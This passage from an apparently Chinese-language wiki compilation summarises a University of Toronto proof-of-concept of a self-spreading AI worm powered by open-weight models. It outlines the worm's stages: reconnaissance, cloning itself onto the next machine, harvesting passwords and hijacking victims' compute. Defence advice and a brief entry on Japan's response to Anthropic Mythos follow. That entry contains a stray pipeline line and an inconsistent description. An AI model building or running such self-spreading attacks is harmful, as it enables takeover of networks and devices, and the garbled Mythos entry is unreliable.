- **WAF 和 rate limiting 的必要性**：RubyGems 选择与 Fastly 协作启用 WAF + rate limiting ，对于运营公共 API 或开放注册平台的技术团队，这个组合是防御 spam 和 DDoS 的基础层
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/temporarily-disabling-new-user-registrations.md)

## 相关实体

- [Temporarily disabling new user registrations](https://github.com/QianJinGuo/wiki/blob/main/entities/rubygems-temp-disable-registrations.md)
- [IC work is the new career flex](https://github.com/QianJinGuo/wiki/blob/main/entities/p-ic-work-is-the-new-career-flex.md)
- [New and improved Agent governance intelligent workflows](https://github.com/QianJinGuo/wiki/blob/main/entities/microsoft-copilot-studio-agent-governance.md)

---

## Ch12.114 U of T researchers demonstrate AI worm: self-spreading malware using open-weight models

> 📊 Level ⭐⭐⭐⭐ | 11.0KB | `entities/u-of-t-ai-worm-cleverhans-papernot-2026.md`

# U of T researchers demonstrate AI worm: self-spreading malware using open-weight models

> **Source**: University of Toronto News (2026-06-02). Research by Nicolas Papernot's [CleverHans Lab](https://cleverhans.io/) at U of T + Vector Institute. Published 2026-06-02.

## 核心发现（Core Finding）

**首次实证**: publicly accessible open-weight AI models can power a **worm that adapts its strategy as it spreads from one device to the next** — self-learning, self-replicating malware that can:
- 跨设备自适应攻击策略
- 接管整个网络（seize control of an entire network）
- 劫持算力（hijack computing power）发动几乎零成本的复杂攻击
- 攻击**任何在线设备**（laptops, cameras, smart thermostats, HVAC, 能源网络）
- 传统防御对此**未准备好**

## 关键事实

- **研究者**: Nicolas Papernot + Jonas Guan, Tom Blanchard, Hanna Foerster, Hengrui Jia, Gabriel Huang（CleverHans Lab + Vector Institute）
- **发布时间**: 2026-06-02
- **研究类型**: 安全数字实验室内的概念验证（proof-of-concept）
- **核心差异** vs 之前研究: 不需要 expensive 模型（与 Anthropic Claude Mythos 类大模型对比），使用可下载的开源 open-weight 模型
- **Prior disclosure**: 在发布前已与国家安全/科学/国防机构沟通，删除可能被恶意行为者利用的细节

## 攻击机制（Attack Mechanism）

1. **感染**: 蠕虫嵌入一台机器后立刻开始侦察（scope out each target, tailor its attacks）
2. **克隆**: 在接管机器前先复制自身到下一台（cloning itself onto the next one）
3. **信息收集**: 每次突破都暴露**密码和弱点**，可解锁下一台机器
4. **算力劫持**: 从受害者机器**siphon processing power** 来支持自己的推理和发动下一波攻击 — 几乎消除每次新感染的成本
5. **自适应**: 不同于固定脚本的传统 worm — AI worm 会"scope out each target, tailor its attacks"，没有单一防御能阻止

## 关键引文（Nicolas Papernot）

> "Hackers have typically had to prioritize the most high-value targets because time and computing resources were limited. But now, once a worm is launched, the cost would drop to nearly zero."

> "Every device connected to the internet – laptops, cameras, smart thermostats and everything else – becomes a potential target, if not for the data it holds, then as a foothold to attack more valuable targets."

> "In an interconnected world, no system is immune to this threat. Sharing these findings is the first step in galvanizing researchers, industry leaders and policymakers to take action – and quickly."

> "We can no longer afford to hit 'ignore' on software updates. Every door you close is one less way in, so it's worth taking a few minutes to reboot."

## 与传统 Worm 的关键差异

| 维度 | 传统 Worm | AI Worm (本论文) |
|------|----------|------------------|
| 攻击策略 | 固定脚本 | AI 自适应（scope out + tailor） |
| 防御绕过 | 遇未知防御即失败 | 持续学习、动态调整 |
| 成本 | 每次新感染需追加资源 | 几乎零（劫持受害者算力）|
| 模型依赖 | 无 | Open-weight 开源 AI 模型 |
| 攻击范围 | AI 系统内 | **可攻击底层软件**（更广） |
| 优先级 | 高价值目标（成本约束）| **任何在线设备** |

## 防御建议（Defense Recommendations）

来自 Papernot 团队的实操建议：

1. **Keep devices patched**: 不要再 ignore 软件更新
2. **Strong passwords**: 弱密码是最常见的初始入侵点
3. **Multifactor authentication**: 多因素认证
4. **Lock down your own device**: 每个用户/管理员是网络第一道防线
5. **Audit security settings**: 检查暴露的 service 端口
6. **修复 human errors**: IT 配置错误不是 patch 能解决的

## 论文链接

- CleverHans Lab 最新研究: https://cleverhans.io/latest-research.html
- U of T News: https://www.utoronto.ca/news/u-t-researchers-demonstrate-ai-worm-could-target-any-online-device
- Vector Institute: https://vectorinstitute.ai/

## 三层洞察（Why this matters for AI builders）

1. **Open-weight 模型 = 双刃剑**: 大小公司、学术机构使用 open-weight 模型做研究/部署是行业基础，但**这些模型可被剥离 safety guardrails 用于恶意目的**。任何提供 open-weight 模型的组织（Meta、Mistral、阿里、智谱、DeepSeek）都在道义上承担这份风险
2. **AI 安全研究的新前沿**: 从 prompt injection 发展到 self-replicating 攻击 — 这是**网络蠕虫的 AI 原生升级版**。AI 红队/蓝队研究需求陡增
3. **Defense 现状滞后**: "current cyber defences are not yet ready for it" — 任何 AI 产品/agent 上线时，安全审计必须从"防止数据泄露"扩展到"防止 AI 自身被武器化"

## 深度分析

1. **攻击经济学范式颠覆**：传统蠕虫攻击受限于"时间+算力"资源池，每次新感染需追加成本，迫使攻击者优先选择高价值目标。AI 蠕虫通过劫持受害者算力自我支撑，将单次感染边际成本压缩至接近零。这不只是效率提升，而是**攻击者与防御者成本结构的根本性倒置**——防御方需保护每一台设备，攻击方只需成功投放一次。

2. **Open-weight 模型的"武器化门槛"已突破临界点**：论文证明无需前沿大模型，仅靠公开可下载的开源权重即可构建自适应蠕虫。这意味着**任何具备基础 ML 工程能力的攻击者都能复现**——不再需要国家级资源或昂贵计算集群。开放权重生态（Meta Llama、Mistral、Qwen、DeepSeek 等）的广泛普及实质上降低了这门攻击技术的获取门槛。

3. **自适应攻击 vs 静态防御的非对称性**：传统安全防御依赖特征码、行为规则和已知漏洞库，面对 AI 蠕虫的"scope out each target, tailor its attacks"能力，所有基于签名的防线均失效。更深层的不对称在于：**防御需要覆盖所有入口，攻击只需找到一个盲点**。AI 蠕虫的动态策略调整能力进一步扩大了这一非对称优势。

4. **多跳攻击的级联效应（cascading effect）**：蠕虫每感染一台新设备，既是终点也是跳板——每次突破都暴露密码和弱点，形成正反馈循环。随着感染面扩大，攻击者可调度的算力池和情报池同步膨胀，最终在某个临界点形成**单次投放、全球自传播、全网协同**的作战能力。这已超出传统僵尸网络的集中控制模式，进入分布式自主作战新阶段。

5. **安全研究的负责任披露悖论**：研究团队在发布前与国家安全/科学/国防机构沟通并删除关键细节，但**完全开放的技术复现路径依然存在**（开源模型 + 公开论文 + 安全 lab 环境 = 可完全还原）。这揭示了 AI 攻击技术研究中一个根本张力：学术透明性与防御准备时间窗之间的取舍没有完美解决方案，只能通过加速防御侧研究来对冲。

## 实践启示

1. **补丁管理是最低成本、最高回报的防御层**：Papernot 明确指出"every door you close is one less way in"——AI 蠕虫依赖已知漏洞链式突破，未修复的 CVE 窗口期就是攻击者的黄金窗口。建立自动化补丁验证机制（而非依赖用户手动重启），应成为企业安全基线的优先级之首。

2. **网络微分段（micro-segmentation）需重新审视**：AI 蠕虫的跨设备自适应传播能力意味着单点突破可迅速扩散至全网。传统的扁平化内网架构在面对此类威胁时放大了攻击面。将网络按业务逻辑和信任边界细化分段，限制横向移动路径，是成本可控的架构层缓解措施。

3. **多因素认证（MFA）是防初始入侵的必备屏障**：弱密码仍是大多数入侵的起点，而 AI 蠕虫的信息收集阶段会充分利用这一点。即使单次认证被突破，MFA 提供的认证层跳也能显著提高攻击成本，破坏蠕虫的自动化传播链。

4. **AI 产品安全审计框架需纳入"被武器化"威胁模型**：当前 AI 安全审计集中在数据泄露、幻觉、注入等威胁，但本论文揭示了**AI 模型本身作为攻击载具**的新维度。任何面向互联网的 AI agent 或模型服务，在上线前应强制评估"如果模型能力被恶意劫持，攻击者能做什么"这一威胁场景。

5. **Open-weight 模型提供方需建立滥用途径预警机制**：本论文证明了开源模型可被用于恶意目的，且提供者无法控制模型被如何使用。但可以做到的是：**监控模型在异常场景中的使用模式**（如异常的 API 调用频率、异常的任务类型分布），在滥用在野发生前提供预警或熔断。这既是技术挑战，也是行业责任。

## 引用与回链

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/u-of-t-ai-worm-cleverhans-research.md)

## 相关实体（Related Entities）

- [Mythos For Offensive Security Xbows Evaluation](https://github.com/QianJinGuo/wiki/blob/main/entities/mythos-for-offensive-security-xbows-evaluation.md) — Claude Mythos 攻防评估
- [Llm Raiders Private Ai Server](https://github.com/QianJinGuo/wiki/blob/main/entities/llm-raiders-private-ai-server.md) — LLM Raiders 私人 AI 服务器
- [Securing Ai Agents How Aws And Cisco Ai Defense Scale Mcp And A2A](https://github.com/QianJinGuo/wiki/blob/main/entities/securing-ai-agents-how-aws-and-cisco-ai-defense-scale-mcp-and-a2a.md) — AWS + Cisco AI Defense MCP/A2A
- [Ai Gateways Vs Mcp Gateways What Security Teams Need To Know](https://github.com/QianJinGuo/wiki/blob/main/entities/ai-gateways-vs-mcp-gateways-what-security-teams-need-to-know.md) — AI gateway 安全
- [Fragnesia Linux Kernel Local Privilege Escalation Via Esp In Tcp](https://github.com/QianJinGuo/wiki/blob/main/entities/fragnesia-linux-kernel-local-privilege-escalation-via-esp-in-tcp.md) — Linux 内核权限提升
- [The Agentic Trust Management Platform Drata](https://github.com/QianJinGuo/wiki/blob/main/entities/the-agentic-trust-management-platform-drata.md) — Drata agentic trust 平台
- [Enterprise Openclaw Security Deploy Architecture Guide](https://github.com/QianJinGuo/wiki/blob/main/entities/enterprise-openclaw-security-deploy-architecture-guide.md) — OpenClaw 部署安全
- [Introducing Aimap Security Testing For Ai Agent Bishop Fox](https://github.com/QianJinGuo/wiki/blob/main/entities/introducing-aimap-security-testing-for-ai-agent-bishop-fox.md) — Bishop Fox AI agent 安全测试
- [Anthropic To Share Mythos Cyber Flaw Findings With Global Finance Watchdog](https://github.com/QianJinGuo/wiki/blob/main/entities/anthropic-to-share-mythos-cyber-flaw-findings-with-global-finance-watchdog.md) — Anthropic Mythos 漏洞共享
- [Microsoft Open Sources Rampart Clarity](https://github.com/QianJinGuo/wiki/blob/main/entities/microsoft-open-sources-rampart-clarity.md) — Microsoft Rampart/Clarity 开源

---

## Ch12.115 Japan’s PM orders cybersecurity review to defend against Anthropic Mythos

> 📊 Level ⭐⭐⭐⭐⭐ | 3.0KB | `entities/japan-pm-cybersecurity-review-anthropic-mythos.md`

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/japan-pm-cybersecurity-review-anthropic-mythos.md)

## Summary
7×8=56 - Article ingested from newsletter candidate pipeline.

## Notes
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/japan-pm-cybersecurity-review-anthropic-mythos.md)

## 深度分析
日本首相下令对 Anthropic Mythos 进行网络安全审查，这一事件折射出**国家级安全监管与 AI 技术发展之间的深层矛盾**。Mythos 作为 Anthropic 的漏洞赏金计划，其"greatest marketing stunt"的争议揭示了 AI 安全问题的双面性。
关键分析：

- **漏洞赏金的边界**：漏洞赏金计划究竟是安全改进还是变相营销？日本政府的审查态度表明监管机构对此持谨慎态度
- **AI 系统的攻击面扩大**：随着 AI Agent 进入生产环境，其复杂性和潜在攻击向量急剧增加
- **国家安全视角**：主要经济体开始将 AI 系统视为关键基础设施的一部分，相应监管随之加强
这一事件预示着未来 AI 产品进入敏感市场将面临更严格的安全审查。

## 实践启示
1. **AI 产品出海需重视合规**：进入不同国家的市场前，充分了解当地的网络安全和 AI 监管要求
2. **安全与营销的平衡**：漏洞赏金计划应建立透明的运营机制，避免被质疑为营销噱头
3. **企业主动拥抱监管**：在 AI 系统部署前，主动进行安全评估和合规审查，降低被调查风险
4. **关注国际监管趋势**：日本的做法可能成为其他国家参考的模板，企业应提前布局应对全球性 AI 监管
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/japan-pm-cybersecurity-review-anthropic-mythos.md)

## 相关实体
- [Anthropic PM 的 Agentic 工作流](https://github.com/QianJinGuo/wiki/blob/main/entities/anthropic-pm-agentic-workflow.md)
- [Anthropic's bug-hunting Mythos was greatest marketing stunt ever says curl creator](https://github.com/QianJinGuo/wiki/blob/main/entities/anthropic-s-bug-hunting-mythos-was-greatest-marketing-stunt-ever-says-curl-creat.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/2026.md)

- [Anthropic's bug-hunting Mythos was greatest marketing stunt ever, says cURL creator](https://github.com/QianJinGuo/wiki/blob/main/entities/anthropic-mythos-bug-hunting-marketing.md)
- [anthropic vs dow (department of war) 与开源模型的 5-10 年权力均衡](https://github.com/QianJinGuo/wiki/blob/main/entities/anthropic-vs-dow-open-models-power-equilibrium-2026.md)
- [dario amodei 2026 policy on the ai exponential](https://github.com/QianJinGuo/wiki/blob/main/entities/dario-amodei-policy-ai-exponential-2026.md)

---
